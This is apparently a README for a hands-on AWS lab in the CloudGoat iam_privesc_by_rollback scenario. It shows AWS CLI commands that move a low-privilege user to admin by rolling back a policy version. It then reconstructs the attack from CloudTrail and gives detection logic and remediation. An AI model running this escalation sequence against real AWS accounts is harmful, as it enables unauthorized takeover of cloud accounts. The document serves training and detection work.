


# AWS IAM Privilege Escalation via Policy Rollback — Attack & Detection

A hands-on cloud security lab: I exploited an IAM privilege-escalation
misconfiguration in AWS, then switched to the defender side and
reconstructed the whole attack from CloudTrail logs — the way a SOC
analyst would during an investigation.

**Environment:** AWS, CloudGoat scenario `iam_privesc_by_rollback` (Rhino Security Labs)
**Skills:** IAM, privilege escalation, CloudTrail log analysis, incident reconstruction, detection engineering, MITRE ATT&CK

---

## Summary

A low-privilege IAM user (`raynor`) was able to grant itself full
administrator access without any new permissions being added — simply by
rolling an existing IAM policy back to an older, over-privileged version.

The only "offensive" permission `raynor` needed was
`iam:SetDefaultPolicyVersion`. That one permission, combined with old
policy versions left in place, was enough to go from near-zero access to
full admin.

---

## Part 1 — The Attack

### Starting position
`raynor` starts with a single attached policy. Its active version (v1)
allows only read-only IAM actions — plus one dangerous permission:

```
"Action": [ "iam:Get*", "iam:List*", "iam:SetDefaultPolicyVersion" ]
```

### Recon
Enumerating the policy showed it had **5 saved versions**, with v1 set as
the default:

```
aws iam list-policy-versions --policy-arn <raynor-policy-arn> --profile raynor
```

Reading each version revealed that **version v3 granted full admin**:

```
"Statement": [ { "Action": "*", "Effect": "Allow", "Resource": "*" } ]
```

(v2 was an IP-restricted deny, v4 was date-expired, v5 was S3-only — decoys.)

### Exploitation
Using `SetDefaultPolicyVersion`, I switched the policy's active version
from the limited v1 to the admin v3:

```
aws iam set-default-policy-version \
  --policy-arn <raynor-policy-arn> --version-id v3 --profile raynor
```

### Impact
`raynor` — a user with no admin rights a moment earlier — could now list
every user in the account, confirming full administrator access:

```
aws iam list-users --profile raynor
```



---

## Part 2 — The Investigation (Defender)

Switching to the defender role, I reconstructed the attack purely from
CloudTrail, with no prior knowledge of what `raynor` had done.

### Key event
A single CloudTrail event tells the whole story:

| Field | Value |
|---|---|
| Event name | `SetDefaultPolicyVersion` |
| Event time | 2026-10-05 17:33:19 UTC |
| User | `raynor-cgid...` |
| Source IP | `20.42.11.19` |
| Read-only | **false** (this was a change, not a read) |
| Target policy | `cg-raynor-policy-...` |
| Version set | **v3** (the full-admin version) |



### Attack timeline (from CloudTrail)
1. `GetUser` / `ListAttachedUserPolicies` — attacker maps their own permissions
2. `ListPolicyVersions` — attacker discovers the policy has old versions
3. `GetPolicyVersion` (x5) — attacker reads each version, finds admin in v3
4. `SetDefaultPolicyVersion` → **v3** — attacker escalates to admin
5. `ListUsers` — attacker confirms admin access

Steps 1–3 are reconnaissance (read-only). Step 4 is the actual compromise.

---

## Part 3 — Detection

The giveaway is step 4: a `SetDefaultPolicyVersion` call that **changes**
the active policy version. Legitimate admins rarely roll a policy back to
an old version; when a low-privilege user does it, it is almost always
privilege escalation.

See [`detections/iam_privesc_rollback.yml`](detections/iam_privesc_rollback.yml)
for a Sigma rule.

**Detection logic:** CloudTrail event where
`eventName = SetDefaultPolicyVersion` and `readOnly = false`.

**MITRE ATT&CK:** T1098 (Account Manipulation), T1078 (Valid Accounts)

---

## Part 4 — Remediation

- **Remove `iam:SetDefaultPolicyVersion`** from user-level policies. Almost no normal user needs it.
- **Delete old policy versions** instead of leaving them attached — an unused admin version is a loaded gun.
- **Apply least privilege**: `raynor` had no business holding a permission that can alter policies.
- **Alert on the event**: wire the detection above into CloudWatch/SIEM so a real rollback pages the SOC.
- **Use IAM Access Analyzer** to flag policies that allow privilege escalation.

---

## Lessons Learned

- Privilege escalation in the cloud often needs **zero new permissions** — just misuse of one the user already has.
- Old IAM policy versions are a real, easily-missed attack surface.
- A single CloudTrail field (`readOnly: false` on a sensitive IAM action) can be the difference between noise and a breach.

---

*Lab performed in an isolated AWS account. All resources were destroyed with `cloudgoat destroy` after completion, and the lab IAM user and keys were deleted.*
